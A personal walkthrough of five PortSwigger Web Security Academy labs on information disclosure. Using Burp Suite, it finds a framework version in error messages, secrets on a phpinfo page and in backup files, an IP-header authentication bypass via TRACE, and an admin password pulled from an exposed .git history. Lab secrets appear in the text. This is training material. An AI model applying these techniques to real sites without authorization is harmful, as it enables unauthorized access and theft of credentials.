 # Portswigger
## Information Disclosure Vulnerabilities
### Information disclosure in error messages
```bash
# This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework. 

Intercept is on
Click "View details"

Change "productId" value to "876876"

GET /product?productId=876876 HTTP/1.1

HTTP/1.1 404 Not Found

Change "productId" value to "hat"

GET /product?productId=hat HTTP/1.1

HTTP/1.1 500 Internal Server Error

Verbose error message revealing vulnerable server

"Apache Struts 2 2.3.31"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512231618.png)

### Information disclosure on debug page
```bash

# This lab contains a debug page that discloses sensitive information about the application. To solve the lab, obtain and submit the SECRET_KEY environment variable. 

Go to: Target -> Site map -> right-click current site -> engagement tools -> Discover content

/cgi-bin/phpinfo.php

After searching this drove of information you find SECRET_KEY

08jhz9dtcrjezdpl22kji6gvbsehygfs

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512232450.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512232532.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512232551.png)

### Source code disclosure via backup files
```bash

# This lab leaks its source code via backup files in a hidden directory. To solve the lab, identify and submit the database password, which is hard-coded in the leaked source code. 

Go to: Target -> Site map -> right-click current site -> engagement tools -> Discover content

Nothing

Intercept is on
Click "Home"
Change:

GET / HTTP/1.1

To

GET /backup HTTP/1.1

HTTP/1.1 200 OK

ProductTemplate.java.bak

Go to:

https://ac3b1f4f1ecfe538c0d2d45e00e1002d.web-security-academy.net/backup/ProductTemplate.java.bak

Locate the poassword within the code

c66fsa1ki4wky2d8ph19j33slvfn7ilk

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512233808.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512234002.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512234043.png)

### Authentication bypass via information disclosure
```bash

#  This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

# To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

# You can log in to your own account using the following credentials: wiener:peter 

Go to:

GET /admin HTTP/1.1

Response:

HTTP/1.1 401 Unauthorized

'Admin interface only available to local users'

Send the "/admin" end-point to repeater

Change:

GET /admin HTTP/1.1

To

TRACE /admin HTTP/1.1

HTTP/1.1 200 OK

X-Custom-IP-Authorization: 89.187.164.248

Copy "X-Custom-IP-Authorization:"

Go to: Proxy -> Options -> Match and Replace -> Add
Replace: 'X-Custom-IP-Authorization: 127.0.0.1'
Refresh Home page
'Admin panel' should be present

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512235722.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220512235655.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513000206.png)

### Information disclosure in version control history
```bash

# This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account. 

Go to:

https://ac0e1fb21fe24f21c0a319740070001b.web-security-academy.net/.git/

Open terminal
Create a directory to download the .git repository content

wget -r https://ac0e1fb21fe24f21c0a319740070001b.web-security-academy.net/.git/

Open 'git-cola' application
Open the recently downloaded file with 'git-cola'
Left-click 'admin.conf' -> left-click 'commit' -> 'Undo last commit' -> 'Undo last commit'

-ADMIN_PASSWORD=y2f2vcxdmbydb1aqaktj

Login is administrator:y2f2vcxdmbydb1aqaktj
Delete the username "carlos"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513004001.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513004032.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513004107.png)

#hacking
